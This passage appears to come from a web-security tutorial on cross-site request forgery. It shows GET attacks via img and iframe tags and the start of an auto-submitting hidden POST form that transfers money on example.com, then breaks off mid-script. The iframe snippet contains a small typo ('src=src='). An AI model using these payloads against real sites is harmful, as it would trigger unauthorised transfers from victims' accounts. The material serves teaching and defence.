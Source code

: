 #### GET Attack

The basic idea behind a CSRF attack on <mark style="color:red;">`GET`</mark> requests is that the attacker can place a piece of code, typically in the form of JavaScript, on their webpage. This code can then trigger GET requests using HTML tags like `img` or `iframe`, which can request the URL specified in the `src` attribute. The server will then respond with an image or webpage, as appropriate.

```html
<img src="http://www.example.com/transfer.php?to=3333&amount=1500">

<iframe
   src=src="http://www.example.com/transfer.php?to=3333&amount=1500">
</iframe>
```

#### POST Attack

In general, the attacker creates a malicious web page that includes a hidden form with pre-filled information. When the victim visits this web page, the form is automatically submitted in the background without their knowledge, and the attack is launched.

The classical form submission looks like following.

```html
<form action="/transfer.php" method="POST">
  <label>Name:</label>
  <input type="text" id="name" name="to"><br><br>
  
  <label>Amount:</label>
  <input type="text" id="amount" name="amount"><br><br>  
  
  <input type="submit" value="Submit">
</form>
```

The attacker can dynamically construct a page with a hidden form that is automatically submitted. The code below contains values for transferring money with a "to" account and "amount" and automatically submits it when the page is loaded.

```html
<!DOCTYPE html>
<html>
<head>
	<title>Auto-submit Form</title>
</head>
<body>
	<script>
		window.addEventListener('load', function() {
			var form = document.createElement('form');
			form.setAttribute('method', 'post');
			form.setAttribute('action', '/transfer.php');
			form.setAttribute('hidden', true);
			
			var input1 = document.createElement('input');
			input1.setAttribute('type', 'text');
			input1.setAttribute('name', 'to');
			input1.setAttribute('value', '3333');
			
			var input2 = document.createElement('input');
			input2.setAttribute('type', 'text');
			input2.setAttribute('name', 'amount');
			input2.setAttribute('value', '1500');
			
			var input3 = document.createElement('input');
			input3.setAttribute('type', 'submit');
			input3.setAttribute('value', 'Submit Form');
			
```